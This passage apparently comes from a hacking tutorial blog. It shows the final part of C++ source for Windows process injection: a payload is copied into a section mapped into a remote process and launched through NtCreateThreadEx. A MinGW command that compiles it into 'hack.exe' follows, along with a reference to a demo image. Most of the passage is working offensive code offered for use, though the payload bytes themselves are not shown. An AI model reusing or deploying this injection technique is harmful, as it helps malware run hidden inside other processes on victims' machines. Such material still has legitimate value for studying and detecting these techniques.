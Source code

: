 ```cpp
  printf("remote process mapped at address: %p\n", rb);
 
  // copy payload
  memcpy(lb, my_payload, sizeof(my_payload));

  // unmapping section from current process
  myZwUnmapViewOfSection(GetCurrentProcess(), lb);
  printf("mapped at address: %p.\n", lb);
  myZwClose(sh);

  sh = NULL;
  
  // create new thread
  myZwCreateThreadEx(&th, 0x1FFFFF, NULL, pi.hProcess,
    rb, NULL, CREATE_SUSPENDED, 0, 0, 0, 0);
  printf("thread: %p.\n", th);
  ResumeThread(pi.hThread);
  myZwClose(pi.hThread);
  myZwClose(th);
  
  return 0;
}
```

### Demo

Let's go to compile our example:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![injection 5](/assets/images/35/2022-01-16_23-57.png){:class="img-responsive"}    
